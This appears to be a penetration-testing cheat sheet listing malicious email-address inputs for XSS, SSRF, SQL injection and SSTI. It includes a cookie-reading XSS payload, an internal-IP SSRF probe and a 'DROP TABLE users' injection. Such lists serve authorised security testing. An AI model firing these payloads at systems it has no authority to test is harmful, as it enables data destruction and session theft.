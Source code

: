 ## These tests are performed on the email address field

## XSS (Cross-Site Scripting)
1. test+(<script>alert(1337)</script>)@example.com
2. test@example(<script>alert(1337)</script>).com
3. "<script>alert(1337)</script>@example.com
4. test@gmail.com'"><svg/onload=confirm(1)>
5. "><svg/onload=confirm(document.cookie)>"@x.y

## SSRF (Server-Side Request Forgery)
1. firstname.lastname@abc123.BurpCollaborator.net
2. username@burp-collab.net
3. firstname.lastname@[127.0.0.1]

## SQL Injection
1. "' OR 1=1 -- '"@example.com
2. "mail'); DROP TABLE users;--"@example.com

## SSTI (Server-Side Template Injection)
1. test+(${{7*7}})@example.com
2. “<%= 7 * 7 %>”@example.com
